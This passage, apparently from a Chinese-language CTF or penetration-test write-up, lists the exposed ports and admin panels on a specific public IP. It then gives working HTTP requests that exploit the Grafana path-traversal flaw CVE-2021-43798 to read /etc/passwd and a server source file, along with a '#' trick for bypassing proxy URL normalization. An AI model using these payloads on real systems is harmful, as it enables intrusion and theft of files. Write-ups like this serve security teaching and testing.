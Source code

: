 | 101.132.189.74:110  |            | pop3                                         | 2022-10-30 13:25:07 |
| 101.132.189.74:25   |            | smtp                                         | 2022-10-30 13:25:02 |
| 101.132.189.74:80   |            | http                                         | 2022-10-30 13:24:36 |
| 101.132.189.74:80   |            | http                                         | 2022-10-30 13:24:36 |

其中，暴露了如下后台管理web入口：

- http://101.132.189.74:8088/login   => grafana
- http://101.132.189.74:8082/ui/login/  => JFrog
- 101.132.189.74:2222 => openssh



### Grafana任意文件读取漏洞

利用 CVE-2021-43798 - Grafana 文件读取漏洞，读取提示的 etc/server.go 文件。

先试探一下plugins漏洞。

```URL
http://101.132.189.74:8088/public/plugins/a/a
```

```json
// 20221030135121
// http://101.132.189.74:8088/public/plugins/a/a

{
  "message": "Plugin not found"
}
```

得到确定，那就开始吧。尝试一个精心设计的路径。

```http
GET /public/plugins/text/../../../../../../../../../../etc/passwd HTTP/1.1
```

部分反代会使用中间件来标准化URL，可能需要在URL中使用#号绕过反代机制。

```http
GET /public/plugins/text/#/../../../../../../../../../../etc/passwd HTTP/1.1
```

---

一旦这种获取方式成功，那就替换成：

````http
GET /public/plugins/text/../../../../../../../../../../etc/server.go HTTP/1.1
````

取得server.go文件。



### 探索服务端程序的攻击点
